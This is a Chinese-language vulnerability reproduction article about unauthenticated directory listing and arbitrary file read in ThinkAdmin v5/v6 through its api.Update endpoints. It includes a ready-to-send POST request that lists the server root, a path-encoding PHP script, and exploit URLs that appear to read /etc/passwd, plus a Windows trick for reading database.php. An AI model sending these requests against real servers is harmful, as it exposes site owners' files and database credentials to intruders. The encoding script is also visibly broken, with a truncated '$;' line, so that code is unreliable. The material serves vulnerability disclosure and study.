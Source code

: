 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ORM_6AXz-4jpg1wn82GrLg)

### 0X00 简介

> ThinkAdmin 是一套基于 ThinkPHP 框架的通用后台管理系统, ThinkAdmin v6 版本存在路径遍历漏洞。攻击者可利用该漏洞通过 GET 请求编码参数任意读取远程服务器上的文件。

### 0X01 影响范围

> Thinkadmin ≤ 2020.08.03.01    v5（任意文件读取）    v6（列目录, 任意文件读取）

```
查看版本
https://ip/admin/login.html?s=admin/api.Update/version
```

![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd44xQdw0Uq2QxKcEG9YZmD6YIo5bpSDicTp5j74biciaswymhDOjGpK6fFA/640?wx_fmt=png)

### 0X02 漏洞复现

在`app/admin/controller/api/Update.php`中存在 3 个 function，无需登录验证就能使用。

```
namespace
app\admin\controller\api;
use think\admin\Controller;
use think\admin\service\ModuleService;
use think\admin\service\SystemService;
```

#### 1. 列目录漏洞

在 node() 方法中，直接将 POST 的 rules 和 ignore 参数传给了 InstallService::instance()->getList()![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4jwBN3ds3o18k2tTh88icyfuLiaH0RVVazQIxo569N7B2aM6lGIzCANibQ/640?wx_fmt=png) 在 vendor/zoujingli/think-library/src/service/InstallService.php 中利用 scanList() 去遍历 $rules 数组![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4CU9mic2T8oIHY3PbeyblNI39Pa5mNNKWhGuC9oJTWX4RHlIR2uczMLw/640?wx_fmt=png)继续跟进，在 scanList() 方法中调用 scanDirectory() 递归遍历目录下的文件，然后利用_getInfo() 方法获取文件名和哈希值。![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4I3KKMIXrZuWUA0lWyPJY7vK9nce9JomECiadGlpXwbOuttwiaKV6mJYA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4U2Dn6PG9ibmJSp1dVpMtSh4X80ZjN88cMuwK23cN6D2GStMpFmcMybA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd47EicewlJEOhXDaRqXnVtO3U3MmXALS7LnHC759t67JxL9EuQVK2wdcw/640?wx_fmt=png)在整个过程中并没有进行任何过滤和认证，由此攻击者可以利用此漏洞获取服务器目录列表。

利用 poc

```
POST /admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4da326327c0b75fb074122a093e912a0
Upgrade-Insecure-Requests: 1
Content-Length: 21
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0

rules=%5B%22%2F%22%5D
```

![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4GGLrg97ekIUHTnK6luJzicW4iacvleb0M7Lo5ibPn9toZZEMMhOicmEQfA/640?wx_fmt=png)

#### 2. 任意文件读取漏洞

在 app/admin/controller/api/Update.php 中存在 get() 方法，对 GET 中的 encode 参数使用 decode() 方法进行解码。![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4SlLZzpJsiaapTbrn7OA1HBVTX3Dl1kRibicVto1cUlibvEnsoh0lFCmgbw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd47P2c5eibbpBY7icGNxduzYJNmSnjm6XLtt8MvEjD9V7FIribib9hsN96Xg/640?wx_fmt=png)上面正好有个 encode() 方法，攻击时可以直接调用。![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4414wsESxjKcCrKQtX3fNDWjJSsvSlsOg2JKdIfCxZNINu8o8yJEs0Q/640?wx_fmt=png)继续看 ModuleService::instance()->checkAllowDownload()，禁止下载数据库配置文件，name 参数不能为 database.php。![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4RjDdEZMhXNhXBzBveLVyGTIza2wWic9lYRQIAR6VOuRVpEmtQ0bX5Hg/640?wx_fmt=png)跟进 getAllowDownloadRule() 函数。![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4OF9oY7RaxibTX9SSe9KMEIgrGI9P3pW4oaB2K7gHhS6D8YZB4ia4R1Pw/640?wx_fmt=png)发现允许了以下路径。

```
config
public/static
public/router.php
public/index.php
app/admin
app/wechat
```

可以通过控制 $name 参数，实现任意文件读取，且在 Linux 中无法读取 database.php，而 window 中可以利用 database"php 来绕过。读取的文件路径需要编码。  

编码脚本：  

```
<?php
$;
for($i=0;$i<strlen($ename=iconv('UTF-8','GBK//TRANSLIT',$name));$i++)
{
  echo str_pad(base_convert(ord($ename[$i]),10,36),2,0,0);
}
?>
```

```
https://url/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```

```
https://url/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```

![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4kA2DcrNo8vdejBribickHQicoTDJhWM84cvKVKicsyyVxMxnRMktrSMhwg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4RibiaogXH1jpx2vWyKGqsEu8RmmAia9gf1kCOczGnBLkbWSrFG11sw97w/640?wx_fmt=png)

参考链接：

https://github.com/zoujingli/ThinkAdmin/issues/244